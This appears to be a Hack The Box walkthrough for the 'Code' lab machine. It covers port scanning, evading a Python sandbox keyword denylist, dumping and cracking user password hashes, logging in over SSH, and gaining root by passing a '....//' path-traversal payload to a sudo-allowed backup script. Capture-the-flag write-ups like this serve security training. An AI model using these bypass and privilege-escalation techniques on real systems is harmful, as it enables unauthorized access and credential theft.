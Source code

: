 # CODE – HTB Walkthrough

## 🧭 Enumeration
We begin by scanning the open ports on the host:

```bash
nmap -sS -p- 10.10.11.62 -T5
```

Output:
```bash
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp
```

Port 5000 running a UPnP service catches my attention.

### 🧠 Quick Research on UPnP
> **UPnP (Universal Plug and Play)** allows devices on a network to discover each other and establish communication.  
> It can create direct communication channels with the internet, but it’s potentially risky on public networks.

## 🔍 Port 5000 – Service Detection
```bash
nmap -sV -p 5000 10.10.11.62 -T5
```

Output:
```bash
5000/tcp open  http Gunicorn 20.0.4
```

Gunicorn is a Python WSGI HTTP server, often used to serve Flask apps.  
Browsing the site reveals a sandboxed Python code execution area with login/registration.

## 🧪 Sandbox Testing
```python
print("os.listdir()")
```
→ `Use of restricted keywords is not allowed.`

```python
print("o" + "s")
```
→ `os` is printed. There's a denylist filter.

## 🔍 Exploring Globals
Using `sys.modules`, I discover SQLAlchemy models, Flask routes, and a reference to the `User` and `Code` classes.

## 🧑‍💻 Dumping Users from DB
```python
for user in User.query.all():
    print(user.__dict__)
```

Output:
```json
{'username': 'development', 'password': '759b74ce43947f5f4c91aeddc3e5bad3'}
{'username': 'martin', 'password': '3de6f30c4a09c27fc71932bfc68474be'}
```

Hash cracking with `john`:
```bash
john --show --format=Raw-MD5 hashes.txt
```

Result:
```
development:development
martin:nafeelswordsmaster
```

## 🔐 SSH Access as martin
SSH into the box using `martin`’s credentials. Access to `/home/app-production` is restricted.

## 📦 Discovering `backy.sh`
```bash
sudo -l
```

Output:
```
(ALL : ALL) NOPASSWD: /usr/bin/backy.sh
```

`backy.sh` is a wrapper for the binary `backy`, which compresses directories into `.tar.bz2` archives defined via a `task.json`.

## 📁 Reading `/home/app-production`
Using this `task.json`:
```json
{
  "destination": "/home/martin/backups/",
  "multiprocessing": true,
  "verbose_log": false,
  "directories_to_archive": [
    "/home/app-production/app"
  ],
  "exclude": []
}
```

Execute:
```bash
sudo /usr/bin/backy.sh task.json
```

Then:
```bash
tar -xf code_home_app-production_*.tar.bz2
cat home/app-production/user.txt
```

→ User flag obtained ✅

## 🧨 PrivEsc via Path Traversal
`backy.sh` filters `../` using `jq`:

```bash
map(gsub("\.\./"; ""))
```

But using `/var/....//root` bypasses the filter → becomes `/var/../root`.

```json
{
  "destination": "/home/martin/backups/",
  "multiprocessing": true,
  "verbose_log": false,
  "directories_to_archive": [
    "/var/....//root"
  ],
  "exclude": []
}
```

Then:
```bash
sudo /usr/bin/backy.sh task.json
tar -xf code_var_.._root_*.tar.bz2
cat root/root.txt
```

→ Root flag obtained ✅

## 🏁 Summary

| Step      | Description                                  |
|-----------|----------------------------------------------|
| nmap      | Enumerate ports                              |
| Sandbox   | Web Python execution with filters            |
| DB access | Dump + crack hashes                          |
| SSH       | Login as `martin`                            |
| PrivEsc   | Abuse `backy.sh` and bypass path filter      |
| Root      | Read `/root/root.txt` from archive           |

🎉 Rooted!
